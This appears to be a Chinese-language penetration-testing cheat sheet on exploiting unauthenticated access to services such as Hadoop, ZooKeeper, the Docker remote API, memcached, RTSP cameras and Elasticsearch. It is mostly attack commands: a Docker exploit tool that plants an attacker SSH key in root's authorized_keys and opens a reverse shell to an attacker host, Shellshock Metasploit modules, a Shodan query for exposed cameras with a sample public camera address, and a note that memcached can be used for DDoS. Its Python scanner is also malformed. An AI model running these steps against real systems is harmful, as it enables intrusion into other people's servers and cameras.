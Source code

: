 **Hadoop 未授权访问**

访问ip的xxx端口 康康有无密码或者弱口令
```
    http://<ip>:50070
    http://<ip>:50070/dfshealth.jsp
    http://<ip>:50070/logs/
```


**ZooKeeper 未授权访问**

- [搭建环境]

```
wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz
tar -xzvf zookeeper-3.4.14.tar.gz 
cd zookeeper-3.4.14/conf
mv zoo_sample.cfg zoo.cfg
../bin/zkServer.sh start # 启动
```


开NC监听端口
```
    echo envi|nc <ip> 2181 # 远程获取该服务器的环境
    echo dump |ncat <ip> 2181 # 列出未完成的会话和临时节点
    echo reqs |ncat <ip> 2181 # 列出未完成的请求
    echo ruok |ncat <ip> 2181 # 测试服务器是否运行在非错误状态
    echo stat |ncat <ip> 2181 # 列出关于性能和连接的客户端的统计信息
```




**docker API未授权访问**

- [docker api环境设置](https://docs.docker.com/swarm/install-manual/)



1. 编辑/etc/docker/daemon.json。如果它不存在，则创建它。假设文件为空，其内容应为：

```
{
  "hosts": ["tcp://0.0.0.0:2375", "unix:///var/run/docker.sock"]
}
```

2. 启动或重新启动Docker，以使更改生效。
```
$ sudo systemctl start docker

```

3. 授予ec2-userroot特权：

```
$ sudo usermod -aG docker ec2-user
```
4. 注销主机。








- `http://172.23.169.196:2375/version`

使用软件 -- docker_remote_api_exp
1. ./docker_remote_api_exp -type=check -target=172.23.169.196:2375，获取服务器信息，如操作系统，机器名，remote api版本以及docker的安装位置等
1. ./docker_remote_api_exp -type=root -target=ip:2375 -version=1.12.3，在/root/.ssh/authorized_keys写入攻击者的ssh公钥
1. ./docker_remote_api_exp -type=shell -target=ip:2375 -version=1.12.3 -reverse=attackerIp:8888，给攻击者反弹一个shell







**GNU Bash 远程代码执行漏洞 (CVE-2014-6271)**

```
use exploit/linux/http/ipfire_bashbug_exec #应该可行
set rhost


use exploit/multi/http/cups_bash_env_exec
use exploit/unix/dhcp/bash_environment
```



**memcached 数据库未授权访问**   --可用于ddos

`telnet <ip> 11211`
 set aaa 0 10 9  # 存个 aaa 值
 memcached
 get aaa # 读这个值




**RTSP 未授权访问漏洞**

流媒体摄像头访问漏洞。

在shadon搜索 `port:554 has_screenshot:true` 

我们可以看到有大量的摄像头存在此类安全问题。



```
  rtsp地址格式为：rtsp://[username]:[password]@[ip]:[port]/[codec]/[channel]/[subtype]/av_stream
```

```
rtsp://@178.200.246.42:554   //vlc中网络视频
```
可查看摄像头 连接是否需要提供账号密码



Jenkins 未授权访问漏洞
JBOSS 未授权访问漏洞
VNC 未授权访问漏洞
Rsync 未授权访问漏洞
Atlassian Crowd 未授权访问漏洞
CouchDB 未授权访问漏洞


Elasticsearch 未授权访问漏洞

0x02 Python未授权访问脚本

```py
#! /usr/bin/env python
# _*_  coding:utf-8 _*_
 
import requests
def Elasticsearch_check(ip, port=9200, timeout=5):
    try:
    　　url = "http://"+ip+":"+str(port)+"/_cat"
    　　response = requests.get(url) 
    except:
    　　pass
    if "/_cat/master" in response.content:
    　　print '[+] Elasticsearch Unauthorized: ' +ip+':'+str(port)
 
if __name__ == '__main__':
   Elasticsearch_check("127.0.0.1")
```
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search 查看数据库敏感信息
http://localhost:9200/_nodes 查看节点数据
如有安装head插件：
http://localhost:9200/_plugin/head/ web管理界面



Jupyter Notebook 未授权访问漏洞
